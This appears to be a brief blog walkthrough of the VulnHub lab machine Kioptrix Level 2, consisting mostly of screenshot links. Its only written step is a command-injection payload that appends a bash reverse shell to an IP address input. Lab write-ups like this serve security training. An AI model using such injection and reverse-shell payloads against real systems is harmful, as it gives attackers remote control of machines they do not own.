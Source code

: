 ```yaml
---
layout: post
title:  "vulnhub >_ Kioptrix_Lv2"
description: walkthrough
category: vulnhub
---
```

# Kioptrix_Lv2



![image-20200614202318955]({{ site.url }}/assets/Kioptnix_Lv2.assets/image-20200614202318955.png)



![image-20200614202646066]({{ site.url }}/assets/Kioptnix_Lv2.assets/image-20200614202646066.png)







```bash
127.0.0.1;bash -i >& /dev/tcp/192.168.43.66/1337 0>&1
```

![image-20200614205929661]({{ site.url }}/assets/Kioptnix_Lv2.assets/image-20200614205929661.png)

![image-20200614211009788]({{ site.url }}/assets/Kioptnix_Lv2.assets/image-20200614211009788.png)

![image-20200614210520008]({{ site.url }}/assets/Kioptnix_Lv2.assets/image-20200614210520008.png)

![image-20200614211309399]({{ site.url }}/assets/Kioptnix_Lv2.assets/image-20200614211309399.png)

![image-20200614211354567]({{ site.url }}/assets/Kioptnix_Lv2.assets/image-20200614211354567.png)

